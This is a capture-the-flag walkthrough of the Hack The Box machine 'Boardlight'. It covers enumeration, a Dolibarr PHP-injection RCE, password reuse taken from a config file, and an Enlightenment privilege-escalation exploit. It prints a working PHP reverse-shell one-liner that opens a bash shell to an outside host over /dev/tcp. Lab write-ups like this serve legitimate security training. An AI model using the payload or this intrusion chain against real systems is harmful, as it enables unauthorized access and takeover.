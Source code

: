 ```yaml
---
title: "Boardlight"
description: "An easy rated Linux box that emphasizes and develops enumeration skills, both externally and internally. Foothold is obtained through an authenticated RCE that exploits improper input sanitization. Further enumeration reveals a plaintext password that is reused by another user, allowing escalation of privileges. Finally, root access is obtained through a zero-day exploit found in the Enlightenment Window Manager."
tags: ["writeup", "htb", "enumeration", "dolibarr", "cve", "rce"]
slug: "boardlight"
heroImage: "Boardlight.png"
pubDate: 2024-07-18
os: "linux"
htbMachineActive: true
---
```


## Table of Contents

## Reconnaisance

We of course start out with our trusty `nmap` scan.

```bash
nmap -sC -sV -oA HTB/Machines/BoardLight/boardlight <ip_address>
```

![nmap scan](../../assets/images/boardlight-nmap.webp)

This tells us that we have only port 22 and 80 open. Port 22 is usually a nothing burger, so I always check out port 80 first.

## Enumeration

### Port 80 - HTTP (Apache httpd)

**Service:** Apache httpd
**Version:** 2.4.41

I've already checked this version on another box and it wasn't vulnerable so I don't even bother here. Normally, you would want to at least check the version, but since I had already checked it within the last week or so I completed this machine, I didn't worry about it.

If you navigate to the IP address of your machine, you're greeted by the webpage for Boardlight.

![homepage](../../assets/images/boardlight-80-homepage.webp)

There's a few things on the page, but most of the links go nowhere or redirect to the root `/`. However, there is a contact form.

![contact form](../../assets/images/boardlight-80-contact-form.webp)

Good to have in our back pocket but I start running `gobuster` before doing anything else.

![gobuster](../../assets/images/boardlight-80-gobuster.webp)

We get a few PHP pages back, so this tells us the site is running PHP. Good to know. Not much in the results than what we mostly already knew from just clicking around the site. So this doesn't really help.

If we analyze the Page Source, we see that there's a commented out path for `/portfolio.php`. If we navigate to it, we get a "File not found" error. Oh well. So we'll continue on with our enumeration.

![portfolio error](../../assets/images/boardlight-80-portfolio.webp)

Taking a closer look at the entire webpage reveals in the footer a copyright notice for "Board.htb". This seems promising. If we add the IP address for the machine and route to `board.htb` in our `/etc/hosts` file, we can still access the webpage, but we can also do more enumeration with `gobuster` using the `vhost` option.

![gobuster vhost](../../assets/images/boardlight-gobuster-vhost.webp)

That's more like it. We can see that there's one vhost on the machine at `crm.board.htb`.

```bash
gobuster vhost --domain board.htb --append-domain -u <ip_address> -w /usr/share/wordlists/seclists/Discovery/DNS/subdomain-top1million-11000.txt -t 100
```

Once we add this result to `/etc/hosts` for the same IP address, we can navigate to it and...

![dolibarr admin login](../../assets/images/boardlight-dolibarr-login.webp)

Without even really thinking about it, I immediately tried, `admin:admin` and it worked.

![dolibarr admin page](../../assets/images/boardlight-dolibarr-admin-panel.webp)

![doh](../../assets/images/doh.gif)

Looking around, we get the following information.

**Service:** Dolibarr
**Version:** 17.0.0

We can see from the "My Dashboard" where we currently are that we still have some access denied and certain items in the left sidebar are greyed out. However, there is a Tools and Websites button in the top navbar. I like the Websites one so I head over there first, which leads us to exploitation.

## Exploitation

After some time Googling (because I was confident this was the attack vector), I stumbled on [this](https://starlabs.sg/advisories/23/23-4197/) page which outlines a CVE for Dolibarr when creating a website. Well, funny - that's what I wanted to do! The CVE description is as follows:

```
Improper input validation in Dolibarr ERP CRM <= v18.0.1 fails to strip certain PHP code from user-supplied input when creating a Website, allowing an attacker to inject and evaluate arbitrary PHP code.
```

We'll work on this in the next section, which is obtaining foothold.

### Foothold

The article from above leads me to think that we can inject some PHP shell into the header that will then be read and executed. And after quite a bit of messing around with creating a website, looking at what options are available to me, I finally manage to inject a PHP shell I got from [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#php) and have it be executed. As soon as I entered the shell and clicked Save on the page, I got my shell in my listener.

```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.18/1337 0>&1'"); ?>
```

![www-data user](../../assets/images/boardlight-www-data.webp)

We can run `wget` and `curl` on the target, so we can run a Python web server and grab `linpeas` from our machine and upload it to the target. We have to run `chmod u+x linpeas.sh` but then we can run it as normal.

```bash
chmod u+x linpeas.sh && ./linpeas.sh | tee linpeas.out
```

Running `linpeas`, we see the list of users and groups and it highlights `larissa`. Seems like this would be the next likely target.

![linpeas users](../../assets/images/boardlight-linpeas-users.webp)

If we review the `linpeas` output, we see there are some config files. One such config file is buried deep in the home directory for `www-data`. The file is located at `~/html/crm.board.htb/htdocs/conf/conf.php`.

If we `cat` that out

![conf.php](../../assets/images/boardlight-conf-php.webp)

Inside this file, we can find what looks like the Dolibarr config for the root, `crm.board.htb`. We see a user and a password, `dolibarrowner:serverfun2$2023`. So now, I want to take a step back and review what we have.

### Privilege Escalation

#### larissa

We are currently logged in as `www-data` on the target machine. We've found the Dolibarr configuration file that must have been configured by one of the two other users on this machine. Under normal circumstances, whoever set this up _hopefully_ wouldn't have reused this password. But in a CTF environment (really, even in a normal one too), it's good to at least test.

So if we take this password and try to SSH as larissa onto the box, it works!

![larissa ssh](../../assets/images/boardlight-ssh-larissa.webp)

![user flag](../../assets/images/boardlight-user.webp)

Bad larissa, bad. Don't reuse passwords! Especially ones stored in cleartext in config files on a server somewhere.

We can start by running `linpeas` again and if we review the output, it tells us there's an unknown SUID binary running. Initially, I wasn't too sure what this was and I kept looking around. I didn't even look into it at first. But after some digging and digging, I found nothing so looked into what this was.

![enlightenment](../../assets/images/boardlight-linpeas-enlightenment.webp)

#### root

Enlightenment is a Linux Windows Manager and searching for "Enlightenment CVE", we get a [zero-day exploit POC](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main). All we need to do is download this file (I cloned the repo) on our machine, serve it up, download it on the target and run it.

![boardlight-root-privesc](../../assets/images/boardlight-root-privesc.webp)

And that's a wrap.

![root](../../assets/images/boardlight-root.webp)

## Conclusion

I _really_ enjoyed this machine. It really put your enumeration skills to the test and pays off really well in the end. The privilege escalation from `larissa` to `root` is a bit trivial but it's always cool to see exploits like this and how they just automagically take you from the user to root.
